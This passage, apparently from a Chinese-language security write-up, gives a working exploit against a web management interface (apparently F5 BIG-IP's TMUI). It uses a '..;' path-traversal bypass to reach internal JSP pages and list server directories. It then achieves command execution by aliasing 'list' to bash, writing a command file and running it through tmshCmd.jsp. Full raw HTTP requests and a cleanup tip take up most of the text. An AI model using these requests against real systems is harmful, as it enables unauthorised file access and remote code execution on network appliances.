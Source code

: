 ```
/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHcLd6ZtmUxV88ib7sx0WuWbfhePku9iaqsfVI5jtMr7tQ7ibEGERrbdSAw/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/ HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F




```

###### 命令执行  
  
方式一：指令别名方式  

```
tmshCmd.jsp?command=create+cli+alias+private+list+command+bash   #先创建执行命令的模式，将list设置为bash的别名
fileSave.jsp?fileName=/tmp/cmd&content=id#向创建的文件中写入要执行的命令
tmshCmd.jsp?command=list+/tmp/cmd                 #利用前面设置的list来执行文件中的命令
tmshCmd.jsp?command=delete+cli+alias+private+list#最后清空list


PS:在操作之前, 首先要登录Web，否则返回数据一直为空,同时在操作之后记得清空list
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH5rCvMALE9iau4UJNLaJmQ0VmqncibhHice83dHGOhJalXL3h5ettibic32w/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```